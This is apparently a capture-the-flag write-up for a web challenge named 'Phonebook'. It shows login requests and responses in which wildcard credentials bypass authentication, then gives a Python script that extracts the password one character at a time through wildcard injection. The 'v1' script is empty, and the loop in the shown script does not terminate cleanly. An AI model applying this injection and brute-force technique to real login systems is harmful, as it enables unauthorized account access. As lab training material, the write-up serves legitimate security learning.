

# Phonebook

`HTTP Request` for login

```http
POST /login HTTP/1.1
Host: 178.62.54.33:31294
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: http://178.62.54.33:31294
Connection: close
Referer: http://178.62.54.33:31294/login
Upgrade-Insecure-Requests: 1

username=username&password=password
```

`HTTP Response` for failed login

- Params: `username=username&password=password`

```http
HTTP/1.1 302 Found
Location: /login?message=Authentication%20failed
Date: Sun, 28 Mar 2021 17:14:26 GMT
Content-Length: 0
Connection: close
```

Response to success login

- Params: `username=*&password=*`

```http
HTTP/1.1 302 Found
Location: /
Set-Cookie: mysession=MTYxNjk1NTk0MXxEdi1CQkFFQ180SUFBUkFCRUFBQUpfLUNBQUVHYzNSeWFXNW5EQW9BQ0dGMWRHaDFjMlZ5Qm5OMGNtbHVad3dIQUFWeVpXVnpaUT09fG80M9Th_GiM3TKYe5rW6LLh1nAQdvo7n-B3cU0HopeN; Path=/; Expires=Tue, 27 Apr 2021 18:25:41 GMT; Max-Age=2592000
Date: Sun, 28 Mar 2021 18:25:41 GMT
Content-Length: 0
Connection: close
```

Script v1



Script v2

```python
import requests
import string
import sys

try:
	url = sys.argv[1].strip()
except IndexError:
	print("[-] Usage: %s <url:port>/login " % sys.argv[0])
	sys.exit(-1)


# Identify success auth
auth_ok = requests.post(url, data={'username': '*', 'password': '*'})
password = ""

while True: 
	payload = string.ascii_letters + string.digits + (string.punctuation).replace('*', '')
	for c in payload:
		sys.stdout.write(f"\r[+] Password: {password}{c}")
		login = requests.post(url, data={'username': '*', 'password': f'{password}{c}*'})
		if auth_ok.text == login.text:			
			password += c
			if password[-1] == '}':
				print("Password completed")
				break
```

Usage

```python
python phonebook_exploit.py "http://url:port/login"
```

